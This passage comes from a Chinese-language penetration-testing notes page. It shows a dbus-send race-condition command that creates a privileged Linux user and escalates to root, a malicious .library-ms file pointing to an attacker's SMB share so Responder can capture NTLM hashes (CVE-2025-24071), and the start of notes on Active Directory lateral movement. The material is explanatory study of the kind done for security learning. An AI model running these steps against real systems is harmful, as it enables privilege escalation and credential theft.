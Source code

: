 ## 利用

通过`dbus-send`工具向总线发起创建用户的请求，而`CreateUser` 本身是一个需要特权的操作，会向polkit请求授权。

```
dbus-send --system--dest=org.freedesktop.Accounts --type=method_call --print-reply/org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:zeeker string:"Zeeker Security"int32:1
```

多次测试指令执行时间，然后再次运行指令加上``& sleep0.xxx s;kill$!`。多次尝试sleep的时间，确保在查询uid的时候断开连接。一旦利用成功，我们就创建了一个**特权用户**，然后利用同样的方法使用`SetPasswd`设置密码。这样就可以登录到特权用户了，`sudo su`切换到root

# Windows文件资源管理器欺骗漏洞(CVE-2025-24071)

## 原理

此漏洞的核心是`.library-ms` 文件。此文件本质上是**一个XML格式的配置文件**，用于定义Windows资源管理器中的"库"（例如文档、图片库）。其XML结构内包含一个 `<simpleLocation>` 标签，其中的 `<url>` 项可以指向一个网络位置（如 `\\192.168.1.116\shared`）。用户解压一个包含`.library-ms` 文件的ZIP或RAR压缩包时，**Windows文件资源管理器会自动解析此文件**。一旦读取到在`<url>`中嵌入的SMB路径，就会自动触发NTLM验证流程，泄露NTLMv2哈希。

## 利用

写一个恶意`.library-ms`文件，嵌入攻击者的SMB服务路径：

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\攻击者IP\共享名</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

然后responder监听网卡，捕获NTLM哈希

# AD域渗透

**AD域**（Active Directory Domain）是微软Windows网络中的一个概念，它是一种计算机网络的形式，其中所有用户账户、计算机、打印机和其他安全主体都在位于称为域控制器的一个或多个中央计算机集群上的中央数据库中注册。AD域在企业内网中扮演了重要的角色，集身份验证和服务管理于一身，提供了一种集中管理网络资源的有效方式。

核心是**横向移动**  横向移动依赖AD域中不安全的ACL权限配置。

我做到的都是单DC机器的环境。所以很少用到mimikatz。mimikatz的核心功能是从内存的lsass进程中挖掘密码哈希，但是这通常需要system权限。场景是控制边缘计算机的system再想办法横移。但是只有单DC机，就用不上了。

## NTLM
